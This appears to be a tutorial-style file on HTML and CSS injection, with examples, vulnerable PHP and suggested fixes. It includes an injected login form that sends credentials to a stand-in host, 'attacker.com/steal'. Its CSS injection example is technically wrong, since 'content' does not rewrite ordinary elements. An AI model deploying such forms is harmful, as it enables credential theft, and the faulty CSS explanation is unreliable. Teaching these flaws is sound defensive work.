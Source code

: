 # Vulnerabilities

## htmli

##### description  
HTML Injection (HTMLi) is a vulnerability that occurs when an attacker is able to inject HTML code into a web page by exploiting a weakness in the input validation process. This can happen, for example, if a web application does not properly validate user input or if it allows users to submit data that includes HTML tags that can be executed on the page.  
  
Let's say there is a vulnerable web page that allows users to submit comments, which are then displayed on the page without proper validation. An attacker could submit a comment that includes a ```<form>``` tag that is used to collect sensitive information from users, such as their login credentials.  

##### example  
Here is an example of what the injected HTML code might look like:  
```html
<p>Thank you for visiting our website. Please login to continue:</p>
<form method="post" action="http://attacker.com/steal">
  <label>Username:</label>
  <input type="text" name="username"><br>
  <label>Password:</label>
  <input type="password" name="password"><br>
  <input type="submit" value="Login">
</form>
```

In this example, the attacker has injected a ```<form>``` tag that looks like a legitimate login form. The form is set up to submit the entered username and password to the attacker's website (http://attacker.com/steal) when the user clicks the "Login" button.  

When the user views the page and enters their login credentials, they will unknowingly submit them to the attacker's website instead of the legitimate website. The attacker can then use the stolen credentials to access the victim's account and carry out further attacks.  

##### code of vulnerability
Example of vulnerable code:  
```php
<?php
  $comment = $_POST['comment'];
  echo "<p>You entered the following comment:</p>";
  echo "<p>$comment</p>";
?>
```
In this code, the value of the ```$_POST['comment']``` variable is directly printed onto the page without being properly validated or filtered. This means that an attacker can inject any HTML code they want into the page by submitting a comment that includes HTML tags.  
  
##### fix 
To fix this vulnerability, we need to properly validate and filter the user input before printing it onto the page. Here's an example of how we can do this:  
```php
<?php
  $comment = $_POST['comment'];
  $filtered_comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
  echo "<p>You entered the following comment:</p>";
  echo "<p>$filtered_comment</p>";
?>
```

In this updated code, we use the ```htmlspecialchars``` function to filter out any HTML tags and special characters that could be used to inject malicious code. The ```ENT_QUOTES``` flag is used to ensure that both single and double quotes are properly escaped, and the ```'UTF-8'``` parameter specifies the character encoding to use. This helps prevent HTML injection and other types of code injection attacks.

## cssi

##### description  
CSSI or CSS Injection is a type of attack that involves injecting malicious CSS code into a website or web application. CSS is responsible for the layout and styling of a website. By injecting malicious CSS code, an attacker can modify the appearance and behavior of a website, potentially compromising the security and privacy of users.  

Let's say there's a website that allows users to submit comments on articles. The website displays the comments in a section below the article, with each comment being represented by an HTML element.  
  
##### example
Here is an example of the webpage:
```html
<div class="comment">
  <p class="username">Username</p>
  <p class="message">Comment message</p>
</div>
```

##### code of vulnerability
An attacker could use CSS injection to modify the appearance of the comments section by injecting malicious CSS code into the comment submission form. For example, they could inject the following CSS code:
```css
.comment {
  display: none;
}

/* The following rule will only target the attacker's comment */
.comment:last-child {
  display: block;
}

.comment:last-child .username {
  content: "Hacker";
}

.comment:last-child .message {
  content: attr(data-comment);
}
```

This code would hide all comments on the page, except for the attacker's comment, which would be displayed with a modified username and message. The message would be set using the ```"data-comment"``` attribute of the comment element, which would be populated with the user's input. In this way, the attacker could inject arbitrary comments into the website and potentially trick users into clicking on malicious links or divulging personal information.

To prevent CSS injection attacks like this, web developers should implement input validation and sanitization techniques to prevent untrusted data from being processed and displayed on the website. Additionally, website owners should educate their users on safe browsing practices and encourage them to report suspicious behavior.  
  
##### fix
To fix this vulneravility we need to validate the input on server side:
```javascript
// Import the DOMPurify library
const DOMPurify = require("dompurify");

// Route to handle user comments
app.post("/comments", (req, res) => {
  // Get the user's comment from the request body
  const comment = req.body.comment;

  // Sanitize the comment using DOMPurify
  const cleanComment = DOMPurify.sanitize(comment);

  // Validate the comment
  if (!cleanComment.trim()) {
    // If the comment is empty or contains only whitespace, return an error response
    return res.status(400).send("Comment cannot be empty");
  }

  // Save the sanitized comment to the database
  // ...
});
```

In this example, we're importing the DOMPurify library and using it to sanitize the user's comment on the server-side. We then check if the sanitized comment is empty or contains only whitespace characters, and return an error response if it does. If the comment is valid, we can save it to the database.  




